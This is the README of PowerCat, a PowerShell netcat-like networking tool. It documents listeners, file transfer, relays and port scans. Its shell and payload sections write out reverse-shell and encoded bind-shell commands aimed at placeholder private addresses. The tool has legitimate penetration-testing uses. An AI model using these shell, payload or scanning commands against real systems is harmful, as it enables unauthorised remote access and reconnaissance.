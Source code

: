 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is packaged as a PowerShell module.  First you need to import the module before you can use its functions.
###
```powershell
    # Import the functions from downloaded psm1/psd1 File:
    Import-Module PowerCat.psd1
```
### Parameters:
```powershell    
    Start-PowerCat # Listener
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
    -Port           # The port to listen on.                              [Int]
	-PipeName       # Name of pipe to listen on.                          [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
	
	Connect-PowerCat # Client
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb        [String]
	-RemoteIp       # IPv4 address of host to connect to.                 [String]
    -Port           # The port to connect to.                             [Int]
	-PipeName       # Name of pipe to connect to.                         [String]
	
    -Relay          # Format: "<Mode>:<IP>:<Port/Pipe>"                   [String]
    -Execute        # Execute a console process or powershell.            [Switch]
    -SendFile       # Filepath of file to send.                           [String]
    -ReceiveFile    # Filepath of file to be written.                     [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -KeepAlive      # Restart after disconnecting.                        [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads/writes from/to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Recieve File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB:
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -SendFile C:\pathto\inputfile -KeepAlive
```
